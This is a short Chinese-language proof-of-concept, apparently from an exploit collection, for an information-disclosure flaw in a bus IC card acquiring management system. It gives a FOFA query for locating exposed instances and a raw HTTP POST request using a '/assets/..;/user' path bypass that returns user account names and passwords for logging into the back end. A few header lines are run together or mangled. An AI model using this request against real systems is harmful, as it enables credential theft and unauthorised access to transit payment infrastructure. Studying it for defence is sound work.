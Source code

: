 # 公交IC卡收单管理系统信息泄露漏洞

公交IC卡收单管理系统信息泄露漏洞，通过泄露的账户密码 登录后台系统。

## fofa

```javascript
app="公交IC卡收单管理系统"
```

## poc



```javascript
POST /assets/..;/user HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=B4B300824AA8F075EAC1E702454B91B
AIf-None-Match: W/"8977-1726725363928"If-Modified-Since: Thu, 19 Sep 2024 05:56:03 GMT
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 197

_search=false&nd=1727275150716&rowCountPerPage=10&pageNo=1&sidx=USER_NAME&sord=asc&method=select&USER_NAME=&REAL_NAME=&ACCOUNT_EXPIRE_TIME=%E5%BF%BD%E7%95%A5&PASSWORD_EXPIRE_TIME=%E5%BF%BD%E7%95%A5
```

![e00dcd3eb6fcdbc24bef62d405657e5a](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410181606738.jpg)